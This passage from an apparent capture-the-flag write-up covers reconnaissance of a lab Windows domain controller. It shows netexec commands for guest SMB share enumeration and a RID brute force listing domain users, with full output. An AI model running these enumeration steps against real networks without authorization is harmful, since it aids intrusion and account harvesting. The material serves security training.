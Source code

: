 From the port scan, it seems we are dealing with a **Domain Controller**. We also learn the **hostname** and **domain name**, so we add them to our `/etc/hosts` file:

```
10.10.67.33 DC01.SOUPEDECODE.LOCAL SOUPEDECODE.LOCAL
```
{: file="/etc/hosts" }

### Enumerating SMB Shares

Using `nxc` (`netexec`), we enumerate SMB shares and find that logging in as the `guest` user is permitted and grants us read access to the **IPC$** share.

```console
$ nxc smb dc01.soupedecode.local -u 'guest' -p '' --shares
SMB         10.10.67.33     445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:SOUPEDECODE.LOCAL) (signing:True) (SMBv1:False)
SMB         10.10.67.33     445    DC01             [+] SOUPEDECODE.LOCAL\guest:
SMB         10.10.67.33     445    DC01             [*] Enumerated shares
SMB         10.10.67.33     445    DC01             Share           Permissions     Remark
SMB         10.10.67.33     445    DC01             -----           -----------     ------
SMB         10.10.67.33     445    DC01             ADMIN$                          Remote Admin
SMB         10.10.67.33     445    DC01             backup
SMB         10.10.67.33     445    DC01             C$                              Default share
SMB         10.10.67.33     445    DC01             IPC$            READ            Remote IPC
SMB         10.10.67.33     445    DC01             NETLOGON                        Logon server share
SMB         10.10.67.33     445    DC01             SYSVOL                          Logon server share
SMB         10.10.67.33     445    DC01             Users
```

### Discovering Usernames

Leveraging our access to the **IPC$** share, we can perform a **RID bruteforce** attack using `nxc` to enumerate domain users.

```console
$ nxc smb dc01.soupedecode.local -u 'guest' -p '' --rid-brute 3000
SMB         10.10.67.33     445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:SOUPEDECODE.LOCAL) (signing:True) (SMBv1:False)
SMB         10.10.67.33     445    DC01             [+] SOUPEDECODE.LOCAL\guest:
SMB         10.10.67.33     445    DC01             498: SOUPEDECODE\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.67.33     445    DC01             500: SOUPEDECODE\Administrator (SidTypeUser)
...
SMB         10.10.67.33     445    DC01             1000: SOUPEDECODE\DC01$ (SidTypeUser)
SMB         10.10.67.33     445    DC01             1101: SOUPEDECODE\DnsAdmins (SidTypeAlias)
SMB         10.10.67.33     445    DC01             1102: SOUPEDECODE\DnsUpdateProxy (SidTypeGroup)
SMB         10.10.67.33     445    DC01             1103: SOUPEDECODE\bmark0 (SidTypeUser)
...
```

We can also filter the output to create a clean list of usernames and save it to `valid_usernames.txt`.
